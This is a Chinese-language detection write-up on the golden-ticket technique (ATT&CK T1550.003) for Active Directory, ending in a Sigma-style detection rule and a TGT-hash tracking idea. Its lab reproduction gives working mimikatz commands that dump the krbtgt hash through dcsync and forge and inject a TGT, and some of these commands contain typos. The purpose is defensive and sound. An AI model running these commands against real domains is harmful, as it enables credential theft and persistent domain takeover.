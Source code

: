 # T1550-003-win-黄金票据

## 来自ATT&CK的描述

攻击者可能会使用被盗的Kerberos票证“传递票证”，使其在环境中横向移动，从而绕过正常的系统访问控制。传递票证（PtT）是一种使用Kerberos票证对系统进行身份验证的方法，无需访问帐户密码。Kerberos身份验证可以用作横向移动到远程系统的第一步。

在这种技术中，有效的Kerberos票有效的帐户被捕获OS凭证倾销。取决于访问级别，可以获得用户的服务票证或票证授予票证（TGT）。服务票证允许访问特定资源，而TGT可以用于从票证授予服务（TGS）请求服务票证以访问用户有权访问的任何资源。

可以为使用Kerberos作为身份验证机制的服务获取Silver Ticket，并用于生成票证以访问该特定资源和承载该资源的系统（例如，SharePoint）。

可以使用密钥分发服务帐户KRBTGT帐户NTLM哈希来获取域的Golden Ticket，这可以为Active Directory中的任何帐户生成TGT。

## 测试案例

黄金票据（golden ticket）：伪造票据授予票据（TGT），也被称为认证票据。与其说是一种攻击方式，不如说是一种后门，当域控权限掉后，再重新获取权限，因为常见的在域中管理员知道自己被入侵了 往往只是简单的修改域管的账号 恰恰krbtgt却被忽略…

## 检测日志

windows 安全日志

## 测试复现

### 测试环境

Windows server 2016（AD域控）

Win 7（靶机）

### 测试过程

#### 尝试访问DC目录

```dos
dir \\ICBC.abcc.org\c$\
```

![访问DC目录](https://s1.ax1x.com/2020/04/16/JFzcM6.png)

#### 导出krbtgt用户的hash和sid(使用mimikatz.exe工具)

```bash
lsadump::dcsync /domain:abcc.org /user:krbtgt    #domian：后面是域控名  user后面是krbtgt用户
```

![凭据](https://s1.ax1x.com/2020/04/16/JFzXdg.png)

在域内其他Client(用户机器)上使用其他域管理员来抓取krbtgt用户的hash和sid(使用mimikatz.exe工具)，这里命令和上面的命令是一样的。也可以利用其它方法获取krbtgt的NTML hash

#### 清除自己Client端(域内其他机器)的票据

在域控上面成功抓取了hash和sid，将hash和sid复制到其他域内机器中，也就是Client端，然后在mimikatz.exe执行kerberos::list查看我们当前的票据。

![清理凭据](https://s1.ax1x.com/2020/04/16/JFzjoQ.png)

如果存在其它凭据，可以使用kerberos::purge清除当前用户票据。

#### 伪造TGT票据

##### 方法一

```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```

![伪造](https://s1.ax1x.com/2020/04/16/JkSAwF.png)

##### 验证攻击效果

```dos
dir \\ICBC.abcc.org\c$\
```

![验证](https://s1.ax1x.com/2020/04/16/JkSeY9.png)

#### 方法二

```bash
mimikatz# kerberos::gloden /domain:*.com /sid:<域SID> /krbtgt: <KRBTGT NTLM Hash> /user:<任意用户名> /ticket:test.kribi
or
mimikatz# kerberos::gloden /domain:*.com /sid: <域SID> /aes256: <KRBTGT aes256> /user: <任意用户名> /ticket:test.kribi
```

![伪造2](https://s1.ax1x.com/2020/04/16/JkSMy6.png)

#### 导入*.kribi文件

![导入](https://s1.ax1x.com/2020/04/16/JkSQOK.png)

#### 验证是否成功

![验证1](https://s1.ax1x.com/2020/04/16/JkSd6P.png)

## 测试留痕

正常日志痕迹

![正常](https://s1.ax1x.com/2020/04/16/JkS6Yj.png)

异常日志痕迹

![异常](https://s1.ax1x.com/2020/04/16/JkSykQ.png)

## 检测规则/思路

```yml
title: windows本地账户操纵
description: win7测试
references:
tags: T1550-003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624  #账户登录
        Account domain: '*.*' #可参考示例日志进行理解
    selection2:
        EventID: 4672  #特殊登录
        Account domain: _ #账户域为空
    timeframe: last 5s
    condition: all of them
level: medium
```

最后，存在一些问题，mimikatz最新版本已经更新修复了一下问题，通过此特征检测黄金票据可能会产生误报或者漏洞，建议采用以下方法进行检测。

1.AS-REP返回的Ticket字段中，虽然经过krbtgt密码的加密，但我们仍然可以对其计算唯一摘要值。

2.跟踪每一次的AS-REP TGT票据颁发，记录下Ticket Hash，存入列表A。

3.对每一次TGS-REQ中TGT Hash进行确认，判断该值是否存在于已知颁发过的TGT列表A中。如果不存在，则属于伪造的TGT，即黄金票据。

4.列表A的内容可设置过期时间，TGT和ST的默认最大有效期都是10小时。

## 参考推荐

MITRE-ATT&CK-T1550-003

<https://attack.mitre.org/techniques/T1550/003/>
